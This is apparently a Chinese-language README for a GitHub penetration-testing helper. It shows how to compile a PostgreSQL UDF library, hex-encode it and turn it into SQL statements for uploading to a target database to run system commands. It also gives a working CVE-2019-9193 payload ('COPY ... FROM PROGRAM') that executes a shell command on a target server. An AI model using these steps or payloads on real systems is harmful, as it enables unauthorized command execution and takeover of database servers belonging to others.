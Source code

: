 # 使用

以 PostgreSQL 11.12 为例

```bash
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的sql语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

效果

![](./img/1.png)

当然你要是嫌麻烦,可以看目标是否受 CVE-2019-9193 影响,直接打就是了
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

![](./img/2.png)

## 参考
- https://github.com/sqlmapproject/udfhack
- [渗透中利用postgresql getshell](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)
